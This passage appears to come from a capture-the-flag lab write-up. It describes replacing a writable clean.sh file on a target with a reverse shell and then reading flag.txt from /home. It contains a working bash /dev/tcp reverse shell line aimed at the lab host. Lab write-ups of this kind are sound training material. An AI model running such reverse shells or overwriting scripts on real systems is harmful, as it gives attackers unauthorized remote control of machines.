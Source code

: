 <figure><img src="../.gitbook/assets/Schermata del 2023-07-13 01-32-54.png" alt=""><figcaption></figcaption></figure>

Focusing on clean.sh file (that have all permissions), we can erase the bucket and put into a reverse shell script (re-uploading it).

We found reverse shell scripts on [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and we save it into a new file with duplicate name: clean.sh:

```bash
bash -i >& /dev/tcp/anonymous.thm/4444 0>&1
```







flag is usually in the path: /home

```bash
cd /home
ls
bolt
composer-setup.php
flag.txt
cat flag.txt
```
